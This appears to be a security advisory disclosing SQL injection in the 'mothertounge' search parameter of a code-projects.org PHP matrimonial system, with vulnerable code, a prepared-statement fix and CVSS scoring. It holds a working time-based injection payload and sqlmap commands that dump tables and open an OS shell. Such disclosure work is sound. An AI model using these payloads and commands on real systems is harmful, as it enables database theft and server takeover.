

**Title:** Critical SQL Injection in Matrimonial System IN PHP, CSS, JS, AND MYSQL Allows Database Compromise and Potential Remote Code Execution 
**Severity:** Critical 
**Researcher:** Karan Parelkar

**Executive Summary**

During an assessment of the open-source Matrimonial System IN PHP, CSS, JS, AND MYSQL published on code-projects.org, a critical SQL Injection vulnerability was identified in  the search functionality. 
The vulnerability exists because user-controlled input from the mothertounge parameter is  concatenated directly into an SQL query without server-side sanitization or parameterized  statements. 
Successful exploitation allows an attacker to: 

• Execute arbitrary SQL queries  
• Enumerate databases  
• Extract sensitive user data

In the tested environment, the database account possessed excessive privileges,  allowing SQLMap to achieve operating system command execution.  
Testing was performed only against a locally deployed instance for research purposes. 

**Affected Product**

Item Details 

Matrimonial System IN PHP, CSS, JS, AND MYSQL
Source: https://code-projects.org/matrimonial-system-in-php-css-js-and-mysql-free-download/
Version:  1.0 
Language:  PHP 
Database: MySQL 
Server: Apache 
Operating System Windows (XAMPP Test Environment)

**Vulnerability Classification**

CWE-89 
Improper Neutralization of Special Elements used in an SQL Command (SQL Injection) OWASP Top 10 
A03:2021 – Injection 

**Vulnerability Details**

Vulnerable Endpoint: POST /search.php
Vulnerable Parameter: mothertounge

Root Cause 
The application constructs SQL statements by directly concatenating user-supplied values into SQL queries.

The vulnerable code is located in functions.php, inside the search() function (called by search.php):

```javascript
$sex = $_POST['sex'];
$agemin = $_POST['agemin'];
$agemax = $_POST['agemax'];
$maritalstatus = $_POST['maritalstatus'];
$country = $_POST['country'];
$state = $_POST['state'];
$religion = $_POST['religion'];
$mothertounge = $_POST['mothertounge'];

$sql = "SELECT * FROM customer WHERE 
sex='$sex' 
AND age>='$agemin'
AND age<='$agemax'
AND maritalstatus = '$maritalstatus'
AND country = '$country'
AND state = '$state'
AND religion = '$religion'
AND mothertounge = '$mothertounge'
";
$result = mysqlexec($sql);
```

Because no parameterized query or escaping mechanism is used, arbitrary SQL statements can be injected via the mothertounge parameter. The mysqlexec() function executes the query directly via mysqli_query() with no sanitization applied at any layer, allowing the injected payload to reach the database unfiltered.

**Proof of Concept**

Step 1 –  search page 

The vulnerable Regular search form accepts a user-controlled mothertounge parameter.



Step 2 – Vulnerable Source Code 

The login function directly embeds POST parameters into the SQL query. 


The ‘ in parameter leads to MySQL error confirming SQL injection 


Step 3 – Manual SQL Injection 

The intercepted POST request was modified by injecting a time-based SQL payload into the  mothertounge parameter. 


Payload: sex=male&maritalstatus=Single&country=Dubai&district=Calicut&state=Kerala&religion=Christian-All&mothertounge=Tamil'%2b(select*from(select(sleep(20)))a)%2b'&agemin=19&agemax=50&search=Search

The application response was delayed by approximately 20 seconds, confirming successful  time-based blind SQL injection.

Step 4 – SQLMap Verification 

The captured request was supplied to SQLMap. 

command: ```python python .\sqlmap.py -r .\code_test_1.txt -p mothertounge --dbs```


SQLMap confirmed that the mothertounge parameter is injectable using: 
• Boolean-based Blind SQL Injection  
• Error-based SQL Injection  
• Time-based Blind SQL Injection 

Database Enumeration 

Using SQLMap, multiple databases were successfully enumerated. 


information_schema 
mysql 
performance_schema 
phpmyadmin 
matrimony
test

Customer Information Disclosure 

The vulnerable SQL Injection allowed extraction of user records from the application's  database. 
command: ```python python .\sqlmap.py -r .\code_test_1.txt -p mothertounge -D matrimony –tables
 python .\sqlmap.py -r .\code_test_1.txt -p mothertounge -D matrimony -T partnerprefs --dump
python .\sqlmap.py -r .\code_test_1.txt -p mothertounge -D matrimony -T photos --dump```


Operating System Command Execution 

Because the backend database account possessed excessive privileges, SQLMap successfully  obtained an operating system shell. 
command: 
```python python .\sqlmap.py -r .\code_test_1.txt -p mothertounge --os-shell``` 


The following command was successfully executed: 
whoami 

Result: 
command standard output: '[redacted]' 

This demonstrates that SQL Injection can lead to operating system command execution when  the underlying environment is insecurely configured.

**Impact**

Successful exploitation may allow an attacker to: 
• Execute arbitrary SQL statements  
• Enumerate databases  
• Dump sensitive application data  
• Compromise confidentiality of stored information  
• Execute operating system commands (environment dependent)  
CVSS v3.1 
Base Score 
9.8 (Critical) 
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

**Remediation** 

Developers should: 
• Replace dynamic SQL with prepared statements.  
• Use parameterized queries (PDO or MySQLi).  
• Validate and sanitize all user input.  
• Remove database administrative privileges.  
• Do not use privileged database accounts. 

**Secure Coding Example** 

Vulnerable 


function search(){
  if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $agemin=$_POST['agemin'];
    $agemax=$_POST['agemax'];
    $maritalstatus=$_POST['maritalstatus'];
    $country=$_POST['country'];
    $state=$_POST['state'];
    $religion=$_POST['religion'];
    $mothertounge=$_POST['mothertounge'];
    $sex = $_POST['sex'];
    $sql="SELECT * FROM customer WHERE 
    sex='$sex' 
    AND age>='$agemin'
    AND age<='$agemax'
    AND maritalstatus = '$maritalstatus'
    AND country = '$country'
    AND state = '$state'
    AND religion = '$religion'
    AND mothertounge = '$mothertounge'
    ";
    $result = mysqlexec($sql);
    return $result;
  }
}

Secure

 function search(){
  if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $agemin        = $_POST['agemin'];
    $agemax        = $_POST['agemax'];
    $maritalstatus = $_POST['maritalstatus'];
    $country       = $_POST['country'];
    $state         = $_POST['state'];
    $religion      = $_POST['religion'];
    $mothertounge  = $_POST['mothertounge'];
    $sex           = $_POST['sex'];
    if (!in_array($sex, ['male', 'female'])) {
        die("Invalid input");
    }
    $host="localhost";
    $username="root";
    $password="";
    $db_name="matrimony";
    $conn = mysqli_connect($host, $username, $password, $db_name) or die("cannot connect");
    $sql = "SELECT * FROM customer WHERE 
            sex = ? 
            AND age >= ? 
            AND age <= ? 
            AND maritalstatus = ? 
            AND country = ? 
            AND state = ? 
            AND religion = ? 
            AND mothertounge = ?";
    $stmt = mysqli_prepare($conn, $sql);
    mysqli_stmt_bind_param(
        $stmt, "ssssssss",
        $sex, $agemin, $agemax, $maritalstatus,
        $country, $state, $religion, $mothertounge
    );
    mysqli_stmt_execute($stmt);
    $result = mysqli_stmt_get_result($stmt);
    return $result;
  }
} 


**References**

• Product Inventory System in PHP (code-projects.org) (https://code projects.org/product-inventory-system-in-php-with-source-code/) 
• CWE-89 – SQL Injection  
• OWASP SQL Injection Prevention Cheat Sheet  
• OWASP Top 10 2021 – Injection  

**Researcher Information**

Name: Karan Parelkar 
Independent Security Researcher 
Email: karan.parelkar2005@gmail.com 
GitHub: https://github.com/KaranParelkar 
LinkedIn: https://www.linkedin.com/in/karan-parelkar-6a370125b/


